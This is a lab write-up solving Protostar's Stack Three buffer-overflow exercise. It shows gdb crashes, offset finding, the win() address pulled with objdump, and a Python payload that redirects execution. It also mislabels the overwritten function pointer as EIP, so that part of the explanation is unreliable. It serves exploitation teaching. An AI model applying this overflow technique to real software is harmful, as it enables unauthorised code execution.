

#Protostar - Stack Three
https://exploit.education/protostar/stack-three/

To solve Stack Three, we need to redirect code execution to the win() function.
To redirect code execution, we need to overwrite EIP with the address of win().
EIP is the Instruction Pointer. It points to the next instruction for the CPU to execute.
If we can overwrite EIP, we have code execution over the whole program/system.
Before we can write this exploit, we need 2 things:
- the offset to EIP (so that we can overwrite it)
- the address of the win() function
1) Find offset to EIP
Log into Protostar and open the stack3 binary in gdb.
$ gdb -q stack3
Reading symbols from /opt/protostar/bin/stack3...done.
(gdb)
On your attacking machine, generate a cyclic pattern using msf-pattern_create.
On Kali this is located at /usr/share/metasploit-framework/tools/pattern_create.rb
┌─[root@parrot]─[/ctf/exploit-education/protostar]
└──╼ #msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Back in gdb, run the binary and submit the cyclic pattern.
The binary should crash.
(gdb) run
Starting program: /opt/protostar/bin/stack3
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
calling function pointer, jumping to 0x63413163
Program received signal SIGSEGV, Segmentation fault.
0x63413163 in ?? ()
The stack has been overflowed and EIP has been overwritten with 0x63413163, which is part of our cyclic pattern.
Submit the contents of EIP to msf-pattern_offset.
This will tell us the offset at which EIP gets overwritten.
┌─[root@parrot]─[/ctf/exploit-education/protostar]
└──╼ #msf-pattern_offset -q 0x63413163
[*] Exact match at offset 64
Great!
The offset to overwrite EIP is 64,
which means that we need to write 64 bytes of junk to overflow the buffer and reach EIP.
2) Find address of win()
You can use objdump to dump the assembly instructions of the program and their location in memory.
$ objdump -M intel -d stack3 | grep win -A 8
08048424 <win>:
8048424: 55 push ebp
8048425: 89 e5 mov ebp,esp
8048427: 83 ec 18 sub esp,0x18
804842a: c7 04 24 40 85 04 08 mov DWORD PTR [esp],0x8048540
8048431: e8 2a ff ff ff call 8048360 <puts@plt>
8048436: c9 leave
8048437: c3 ret
The win() function is located at memory address 0x08048424.
3) Write exploit
First, we write 64 bytes of junk to fill the buffer variable.
After that, we overwrite EIP with the address of the win() function.
#!/usr/bin/python
# exploit.education - Stack Three
import struct
win_address = struct.pack('<I', 0x08048424)
payload = "A"*64
payload += win_address
print payload
4) Win
Print your payload by running the exploit and pipe it to stack3.
$ python /tmp/stack3.py | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
Success!
We've overwritten EIP and changed code execution to the win() function.